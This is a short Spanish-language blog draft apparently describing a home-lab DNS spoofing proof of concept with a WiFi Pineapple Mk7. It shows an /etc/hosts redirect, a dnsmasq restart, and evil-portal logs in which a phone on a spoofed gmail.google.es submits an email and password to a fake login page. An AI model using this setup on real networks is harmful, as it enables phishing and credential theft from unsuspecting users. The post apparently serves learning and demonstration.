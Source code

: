 ```yaml
---
title: 'DNS Spoofing - POC'
date: '2023-01-03'
tags: ["DNS Spoofing", "POC"]
draft: true
authors: ['default']
summary: 'En mi último blog, expliqué el funcionamiento del WiFi Pineapple Mk7 de Hack5 utilizando ilustraciones de Julia Evans. En este post, me enfoco en cómo funciona el DNS y cómo se puede manipular para llevar a cabo ataques como el DNS Spoofing. Utilicé ejemplos y comandos para mostrar cómo se puede actualizar el archivo /etc/hosts, borrar la caché DNS y luego ejecutar un ataque de DNS Spoofing desde un dispositivo móvil.'
images: ["/static/images/uploads/wifi-pineapple-mkvii/life-of-a-dns-query.webp", "/static/images/uploads/wifi-pineapple-mkvii/iphone14_spoof.webp"]
---
```


Hace poco me compré el WiFi Pineapple Mk7 de Hack5. Y voy a explicar como funciona los dns utilizando ilustraciones de *[Julia Evans (@b0rk)](https://wizardzines.com/)*

![](/static/images/uploads/wifi-pineapple-mkvii/life-of-a-dns-query.webp)

Update /etc/hosts

⚠️ey!
```
# File: /etc/hosts
# 
#  
192.168.0.10 doogle.es
```
Clear DNS cache


```
# killall dnsmasq && /etc/init.d/dnsmasq start
```
Vamos al movil

![](/static/images/uploads/wifi-pineapple-mkvii/iphone14\_spoof.webp)

DNS Spoofing gmail.google.esy ahora de nuevo


```
evil-portals  | 172.18.0.1 - - [04/Jan/2023:19:40:05 +0000] "GET /assets/css/custom.css HTTP/1.1" 200 1263 "http://gmail.google.es/" "Mozilla/5.0 (iPhone; CPU iPhone OS 16_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.2 Mobile/15E148 Safari/604.1"

evil-portals  | 172.18.0.1 - - [04/Jan/2023:19:40:53 +0000] "GET /controller.php?email=Iker%40prueba.es&password=TeNmUcHoCuIdAdO&hostname=&mac=&ip=172.18.0.1&target=http%3A%2F%2Fgmail.google.es%2F HTTP/1.1" 302 266 "http://gmail.google.es/" "Mozilla/5.0 (iPhone; CPU iPhone OS 16_2 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/16.2 Mobile/15E148 Safari/604.1"
```
